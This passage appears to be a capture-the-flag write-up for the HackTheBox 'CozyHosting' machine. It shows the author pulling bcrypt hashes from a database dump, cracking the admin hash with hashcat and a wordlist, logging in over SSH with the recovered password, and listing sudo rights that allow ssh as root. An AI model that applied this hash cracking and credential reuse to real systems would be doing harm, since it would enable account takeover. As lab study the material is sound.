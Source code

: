 #### Found Password for new User admin

After checking the very small db export, we found a hashed admin password
``` postresql
--
-- Data for Name: users; Type: TABLE DATA; Schema: public; Owner: postgres
--

COPY public.users (name, password, role) FROM stdin;
kanderson	$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim	User
admin	$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm	Admin
\.
```

#### [Hash Analysis](https://www.tunnelsup.com/hash-analyzer/)
Analysis shows bcrypt Blowfish... a decent encryption algorithm. 
```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm - Possible algorithms: bcrypt $2*$, Blowfish (Unix)

[SEARCH AGAIN](https://hashes.com/en/tools/hash_identifier)
```

I racked my brain about whether to attempt cracking it.
#### Crack using hashcat

And of course I tried.
``` shell
➜  htbhashcrack hashcat -m 3200 -a 0 -o cracked.txt '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' ~/Downloads/1000000-password-seclists.txt

➜  htbhashcrack cat cracked.txt 
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

Yey! My first cracked (idiot) password ever. Feels great!

#### Try Login
Now let's try login as josh using the cracked pw.
``` shell
ssh josh@10.10.11.230
```

Viola! It worked! First flag secured!
#### 1x1 of privilege escalation

``` shell
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

This first check looks pretty obvious exploitable. Nevertheless I did an enumeration using [LinEnum.sh](https://github.com/rebootuser/LinEnum). But It looked pretty solid (at least for a noob like me).
